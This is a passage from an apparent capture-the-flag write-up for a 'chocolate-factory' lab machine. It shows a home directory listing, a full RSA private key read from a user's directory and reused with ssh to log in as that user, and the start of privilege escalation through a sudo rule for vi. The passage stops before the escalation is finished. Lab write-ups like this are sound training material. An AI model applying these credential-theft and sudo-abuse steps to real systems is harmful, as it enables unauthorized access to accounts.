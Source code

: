 http://localhost/key\_rev\_key <- You will find the key here!!!

File Found :: -rw-r--r-- 1 charlie charley 8496 Sep 30 2020 key\_rev\_key

using strings command :: strings key\_rev\_key

> > b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

chaging directory to /home/charlie

www-data@chocolate-factory:/home/charlie$ ls -la ls -la total 40 drwxr-xr-x 5 charlie charley 4096 Oct 7 2020 . drwxr-xr-x 3 root root 4096 Oct 1 2020 .. -rw-r--r-- 1 charlie charley 3771 Apr 4 2018 .bashrc drwx------ 2 charlie charley 4096 Sep 1 2020 .cache drwx------ 3 charlie charley 4096 Sep 1 2020 .gnupg drwxrwxr-x 3 charlie charley 4096 Sep 29 2020 .local -rw-r--r-- 1 charlie charley 807 Apr 4 2018 .profile -rw-r--r-- 1 charlie charley 1675 Oct 6 2020 teleport -rw-r--r-- 1 charlie charley 407 Oct 6 2020 teleport.pub -rw-r----- 1 charlie charley 39 Oct 6 2020 user.txt

we got our first flag :: user.txt but we dont have any permission

we found ssh key for user: charlie

> cat teleport -----BEGIN RSA PRIVATE KEY----- MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW 1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9 zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2 EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19 znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg 82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK 37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln -----END RSA PRIVATE KEY-----

Saved the key in a file : id\_rsa

sudo ssh -i id\_rsa charlie@10.10.229.79

Logged in as Charlie

## Priv Escalation

On running sudo -l command we get this output

charlie@chocolate-factory:/opt$ sudo -l Matching Defaults entries for charlie on chocolate-factory: env\_reset, mail\_badpass, secure\_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User charlie may run the following commands on chocolate-factory: (ALL : !root) NOPASSWD: /usr/bin/vi charlie@chocolate-factory:/opt$

this entry allows the user to run the vi editor (located at /usr/bin/vi) as any user without password
